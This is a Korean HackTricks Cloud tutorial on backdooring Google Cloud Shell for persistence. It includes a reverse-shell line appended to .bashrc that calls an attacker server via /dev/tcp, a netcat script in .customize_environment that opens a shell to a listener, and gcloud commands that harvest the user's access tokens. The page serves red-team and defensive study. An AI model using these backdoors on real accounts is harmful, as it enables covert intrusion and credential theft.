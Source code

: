 # GCP - 클라우드 셸 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud**에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 클라우드 셸

더 많은 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

**웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 몇 가지 기능이 있습니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다(서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우 최소 120일 동안 홈 디렉터리를 유지**합니다.
3. 해당 인스턴스의 활동을 모니터링할 **조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있고 사용자가 최소 120일마다 GC Shell에 연결한다면 백도어가 유지되어 공격자가 다음과 같이 실행할 때마다 쉘을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**이라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 셸**에 액세스할 때마다 **실행**됩니다 (이전 기술과 마찬가지로). 사용자가 "자주" 클라우드 셸을 사용하는 한 이전 백도어를 삽입하거나 다음과 유사한 백도어를 삽입하여 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**인증이 필요한 작업을 처음 수행할 때**, 사용자의 브라우저에 팝업 인증 창이 나타납니다. 이 창을 수락해야 명령을 실행할 수 있습니다. 예기치 않은 팝업이 나타나면 의심을 불러일으키고 사용 중인 지속성 방법을 손상시킬 수 있습니다.
{% endhint %}

공격자로서 클라우드 셸에서 `gcloud projects list`를 실행했을 때 브라우저 사용자 세션에서 본 팝업:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 활발히 사용한 경우 팝업이 나타나지 않으며 사용자의 **토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로 다음 3가지 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 쉘의 IP를 알려줌)

그러나 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 많은 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
